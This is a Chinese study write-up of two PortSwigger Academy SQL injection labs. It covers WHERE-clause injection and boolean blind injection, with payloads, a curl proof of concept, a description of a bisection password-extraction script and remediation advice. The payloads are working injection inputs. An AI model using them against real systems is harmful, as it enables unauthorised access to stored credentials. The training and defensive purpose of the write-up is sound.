





# 01 · SQL 注入（WHERE 子句注入 + 布尔盲注）

| 项 | 内容 |
|---|---|
| 靶场 | PortSwigger Web Security Academy（官方托管，无需本地环境） |
| 题目 | ① SQL injection vulnerability in WHERE clause allowing retrieval of hidden data ② Blind SQL injection with conditional responses |
| 日期 | 2026-11-03 |
| 用时 | 约 2.5 小时（其中 1 小时花在排查 cookie 没发出去） |
| 状态 | ①② 均已解出（① 走 URL 的 `category` 参数；② administrator 密码已提取并通过登录验证） |

> 脚本来源标注：`scripts/blind_sqli_boolean.py` 的请求封装、响应判定与二分框架为模板改写，二分与判定逻辑已逐行读懂；
> 长度探测 `detect_len()` 由我自行实现（线性递增 `LENGTH(password) > n`，见脚本第 63—69 行，未用二分）。

---

## 1. 原理

### 1.1 注入点是怎么来的

网站把 cookie 里的 `TrackingId` **当成字符串拼进 SQL**，而不是走参数绑定。依据报错行为与业务语义推断，后台查询形如：

```sql
SELECT trackingId FROM tracking WHERE trackingId = '<我发来的 cookie>'
```

> 表名 / 列名为推断。

### 1.2 一个引号就能改语法，`--` 负责收拾残局

我发出去的 cookie 与服务器实际执行语句的对应关系：

| 我发的 cookie 值 | 服务器实际执行的 SQL |
|---|---|
| `TRACK_ID` | `... WHERE trackingId = 'TRACK_ID'` |
| `TRACK_ID' AND '1'='1` | `... WHERE trackingId = 'TRACK_ID' AND '1'='1'--'` |
| `TRACK_ID' AND '1'='2` | `... WHERE trackingId = 'TRACK_ID' AND '1'='2'--'` |

关键点有两个：

1. **`'1'='1'` 两侧必须各是一个字符串**，不是数学意义上的 `1=1`。
2. **`--` 必须存在**：它把网站自己补在末尾的那个 `'` 注释掉。没有 `--` 时，语句会变成
   `... = 'TRACK_ID' AND '1'='1'` 再多一个引号 → 语法错误 → 500。

### 1.3 有"是/否"，就能读任意数据

把问题从"等于什么"换成"大于什么"：

```sql
... AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator') > 'm'
```

返回真 → 第 1 位字符 > `m`；返回假 → 第 1 位字符 ≤ `m`。
**一次问掉一半，约 7 次锁定一个字符**（95 个可打印字符，log₂95 ≈ 6.6）。

### 1.4 为什么布尔信号只能靠内容判断

| 用例 | 状态码 | 页面有 `Welcome back!` | 响应长度 |
|---|---|---|---|
| 原样（基准） | 200 | True | 11544 |
| `' AND '1'='1` | 200 | True | 11544 |
| `' AND '1'='2` | 200 | **False** | **11483** |

状态码在真/假两种情况下都是 200，**完全无法区分**；唯一可用的是响应体特征与长度差（61 字节 ≈ `Welcome back!` 那一行）。这就是"盲"的含义：只能靠侧信道读一位信息。

### 1.5 二分的边界（为什么是 `lo = mid + 1`）

不变式：**目标字符永远落在 `[lo, hi]` 区间内**。

- `mid` 比目标小（返回真）→ 目标 ∈ `[mid+1, hi]` → `lo = mid + 1`
- 否则（返回假）→ 目标 ∈ `[lo, mid]` → `hi = mid`

猜 `a`（ASCII 97）的完整过程：

```
步  lo   hi   mid  mid字符  mid < 目标?  动作
1   32   126  79   O        True        lo = mid + 1
2   80   126  103  g        False       hi = mid
3   80   103  91   [        True        lo = mid + 1
4   92   103  97   a        False       hi = mid
5   92   97   94   ^        True        lo = mid + 1
6   95   97   96   `        True        lo = mid + 1
→ 6 步收敛，结果 = 'a'
```

**不能写 `lo = mid`**：当 `lo` 与 `hi` 只差 1 时 `mid = (lo+hi)//2 = lo`，判定为真后 `lo` 原地不动，区间一步不缩 → 死循环（见 `scripts/bisect_trace.py` 的 `trace_wrong()`，跑到 200 步会打印"卡在 lo=95, hi=96, mid=95"）。

**我自己的话再讲一遍**（能不看稿说出这段才算真懂）：

> 如果写成 `lo = mid`，当区间只剩两个值、比如 `[32, 33]` 而目标是 33 时，`mid = 32`；判定为"真"以后 `lo` 还是 32——区间永远卡在 `[32, 33]`，`lo` 一辈子到不了 33，于是死循环。写成 `lo = mid + 1`，才能保证 `mid` 这个"已经被排除的点"一定被踢出区间。

### 1.6 字符集

用 32—126（可打印 ASCII），不是"密码里可能出现的字符"——因为必须覆盖你猜的所有可能。二分要求字符集在同一字节序下**有序可比**，所以按 ASCII 排；中文这种多字节字符要按字节比较，不能按"字"。

---

## 2. 复现 ①：WHERE 子句注入

**先记一个坑**：我第一次把 payload 输进了页面上的 `Refine your search` 搜索框，结果页面只把输入原样回显、一件商品都不显示。原因是**搜索框走的是另一个参数（`search=`），本题的注入点是 `category=`**——两个参数对应两条不同的查询，别混。

正确做法：payload 写在**地址栏 URL** 里。

- 正常请求：`GET /filter?category=Corporate+gifts` → 返回 **3** 件商品
- 加引号：`GET /filter?category=Corporate+gifts'` → **500 Internal Server Error**（语法被破坏）
- 截断：`GET /filter?category=Corporate+gifts'--` → 恢复 **4** 件（`--` 注释掉网站补的结尾引号）
- 恒真：`GET /filter?category=Corporate+gifts' OR 1=1--` → **20** 件（多出 16 件未发布商品）→ 条件恒真，绕过 `released = 1` 过滤
- 截图：

  
  

---

## 3. 复现 ②：布尔盲注提取 administrator 密码

### 3.1 先踩的坑：cookie 根本没发出去

**现象**：DevTools Console 里执行 `document.cookie = "TrackingId=xxx' AND '1'='2"` 后刷新，页面**仍然**显示 `Welcome back!`。

**原因**：`document.cookie` 的值**不能含空格**，浏览器在第一个空格处截断，实际只写入了 `xxx'`，注入串从未到达服务端。

**解决**：改用 `scripts/diag_cookie.py` 直接构造 HTTP 请求头，对比三种 cookie（即 1.4 那张表的来源），绕开浏览器行为。以后手测统一用 Application → Cookies 面板改值，不用 Console。

### 3.2 提取过程

```powershell
py scripts\blind_sqli_boolean.py
```

```
[01/20] 7
[02/20] 7l
[03/20] 7lt
...
[19/20] 7lt55xwcq0ma8ti0h7v
[20/20] 7lt55xwcq0ma8ti0h7v5

password = 7lt55xwcq0ma8ti0h7v5
请求数约 140 次（线性逐个比较要 1900 次）
```

- 用户名：`administrator`（题目给定，也写死在提取子查询里）
- 登录：`My account` → 用户名 `administrator` + 上面密码 → lab 顶部出现 `Congratulations`
- 截图：

  
  
  

### 3.3 效率对比

| 策略 | 每字符请求数 | 20 位总请求数 |
|---|---|---|
| 线性逐字符试（95 种） | 95 | 1900 |
| 二分（本题） | ≈ 7 | **140** |

约 **13.6 倍**差距。请求越少越不容易触发频率限制——这也是实战里必须会二分的原因。

---

## 4. PoC（最小可复现）

一条 curl 就够（把 `BASE`、`TRACK_ID` 换成自己的）：

```bash
curl -s "https://BASE/" \
  -H "Cookie: TrackingId=TRACK_ID' AND '1'='2'--" \
  | grep -c "Welcome back"
```

返回 `0` 即证明条件为假、注入生效。

脚本里真正起作用的就三行（`scripts/blind_sqli_boolean.py`）：

1. `cookie = f"TrackingId={TRACK_ID}' AND {cond}--"` —— 拼注入串
2. `return MARKER in body` —— 把响应压成一个布尔值
3. `if is_true(...): lo = mid + 1 else: hi = mid` —— 二分收缩

---

## 5. 修复建议（以及为什么这样修就够）

| 方案 | 为什么有效 |
|---|---|
| **参数化查询（Prepared Statement）** | SQL 的语法结构在编译阶段固定，参数只作为**数据**绑定，`'` 永远不被当作语法符号——从根上消灭拼接 |
| **输入白名单**（如 category 只允许枚举值） | 非白名单值直接被拒，注入字符进不了 SQL。适合取值有限的字段 |
| **数据库账号最小权限** | 即使被注入，也读不到业务无关的表。这是纵深防御，不是修复本身 |
| 为什么"转义引号"不如参数化 | 转义依赖字符集、编码、数据库方言的正确配合，漏一个分支就破；参数化不依赖"猜攻击者怎么绕" |

---

## 6. 卡住记录 / TODO

| 时间 | 卡在哪 | 怎么解决的 |
|---|---|---|
| 14:20—14:40 | Console 改 cookie 后 `Welcome back` 不消失 | `document.cookie` 遇空格截断；改用 Python 直接构造请求头 → 确认真假条件在服务端有差别 |
| 17:40—18:10 | lab ① 把 payload 输进搜索框，页面只回显不显示商品 | 搜索框走 `search=` 参数，注入点是 `category=`；改在 URL 里发 payload → 20 件商品 → `Congratulations` |
| — | ~~普通注入题（lab ①）未做~~ | ✅ 已补完，见 §2 |
| — | ~~`detect_len()` 未实现~~ | ✅ 已自行实现（线性 `LENGTH(password) > n`，见 `scripts/blind_sqli_boolean.py:63`），下一步可改成二分（20 次 → 5 次） |

---

## 7. 三层追问自检（能不看稿讲出来才算过）

1. **为什么能注入？** 用户输入被拼进 SQL 字符串 → 引号破坏原有语法边界 → 用 `--` 注释掉剩余部分，把条件改写成自己想要的。
2. **我怎么判断有注入？** 三种信号对应三种场景：报错/回显差异（普通注入）、响应内容差异（布尔盲注）、响应时间差异（时间盲注，既不回显也不报错时）。
3. **修复为什么有效？** 参数化让"语法结构"和"数据"在协议层就分离，参数永远不参与解析；转义只是"猜攻击者怎么绕"，参数化是"不给绕的机会"。
